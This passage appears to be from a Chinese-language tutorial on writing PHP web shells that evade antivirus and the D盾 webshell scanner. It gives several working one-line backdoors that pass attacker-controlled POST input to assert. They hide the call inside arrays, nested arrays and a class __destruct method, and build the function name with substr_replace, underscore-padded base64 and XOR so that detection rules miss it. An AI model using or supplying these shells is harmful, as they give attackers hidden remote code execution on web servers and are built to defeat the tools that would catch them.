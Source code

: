当然还有其他的符号熟读 PHP 手册就会有不一样的发现

把执行代码放入数组中执行绕过

```
<?php
$a = substr_replace("assexx","rt",4);
$b=[''=>$a($_POST['q'])];
?>

```

多维数组

```
<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = array('a' => $b($_POST['q'])));
?>

```

说到类肯定要搭配上魔术方法比如 `__destruct()`，`__construct()` 直接上代码

```
<?php 

class me
{
  public $a = '';
  function __destruct(){

    assert("$this->a");
  }
}

$b = new me;
$b->a = $_POST['x'];

?>

```

用类把函数包裹, D 盾对类查杀较弱

用 php 的编码函数，或者用异或等等 简单的 base64_decode, 其中因为他的正则匹配可以加入一些下划线干扰杀软

```
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST[x]);
?>

```

或

```
<?php
$a= ("!"^"@").'ssert';
$a($_POST[x]);
?>

```
